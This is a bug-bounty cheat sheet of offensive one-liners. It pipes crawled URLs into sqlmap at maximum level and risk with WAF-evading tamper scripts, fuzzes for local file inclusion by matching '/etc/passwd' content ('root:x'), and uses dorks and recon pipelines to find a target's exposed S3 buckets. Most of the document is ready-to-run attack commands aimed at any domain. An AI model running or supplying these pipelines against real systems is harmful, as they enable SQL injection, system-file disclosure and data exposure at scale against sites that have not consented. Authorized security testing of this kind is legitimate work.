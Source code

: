 # Bugbounty
## 2024 Oneliners found online

## Check SQL
waybackurls 'URL TARGET'| grep '='| httpx --silent --status-code| awk '{print $1}'| xargs -I{} sqlmap -u {} -v 3 --random-agent --tamper "between,randomcase,space2comment" --level 5 --risk 3 --batch --threads 5 --crawl 2 --suffix=') and 1=1-- -'

## Screenshot
cat hosts | gowitness scan file -f - --write-csv  


# 2025 Oneliners found online 

## LFI
findomain -t example.com -q | waybackurls |gf lfi | qsreplace FUZZ | while read url ; do ffuf -u $url -mr “root:x” -w ~/wordlist/LFI.txt ; done


## FIND S3
### Google Dorking
(site:*.s3.amazonaws.com OR site:*.s3-external-1.amazonaws.com OR site:*.s3.dualstack.us-east-1.amazonaws.com OR site:*.s3.ap-south-1.amazonaws.com) "target.com"


Tool: dorks_eye
Link: https://github.com/BullsEye0/dorks-eye
- I forked the original. sudo-awk

### Using subfinder + httpx

subfinder -d target.com -all -silent | httpx-toolkit -sc -title -td | grep "Amazon S3"

### Find using JS files

katana -u https://site.com/ -d 5 -jc | grep '\.js$' | tee alljs.txt
cat alljs.txt | xargs -I {} curl -s {} | grep -oE 'http[s]?://[^"]*\.s3\.amazonaws\.com[^" ]*' | sort -u

### Find using java2s3

subfinder -d target.com -all -silent | httpx-toolkit -o file.txt
cat file.txt | grep -oP '(?<=https?:\/\/).*'
python java2s3.py input.txt target.com output.txt
cat output3.txt | grep -E "S3 Buckets: \['[^]]+"
cat output.txt | grep -oP 'https?://[a-zA-Z0-9.-]*s3(\.dualstack)?\.ap-[a-z0-9-]+\.amazonaws\.com/[^\s"<>]+' | sort -u
cat output3.txt | grep -oP '([a-zA-Z0-9.-]+\.s3(\.dualstack)?\.[a-z0-9-]+\.amazonaws\.com)' | sort -u


### Brute-Forcing S3 Bucket with LazyS3
You can also use this LazyS3 tool — it's basically a brute force tool for AWS S3 buckets using different permutations. you can run the following command by specifying the target domain


### Website you can use : 

https://osint.sh/buckets/
grayhatwarefare

Chrome plugin 
https://chromewebstore.google.com/detail/s3bucketlist/anngjobjhcbancaaogmlcffohpmcniki?hl=en

(site:*.s3.amazonaws.com OR site:*.s3-external-1.amazonaws.com OR site:*.s3.dualstack.us-east-1.amazonaws.com OR site:*.s3.ap-south-1.amazonaws.com) "target.com"

## Get urls

waymore -i hackerone.com -mode U -oU hackerone_urls.txt

cat subs.txt | gau | uro | tee -a all_urls

katana -u target.com | uro | tee -a urls.katana.out


###credits to lostsec




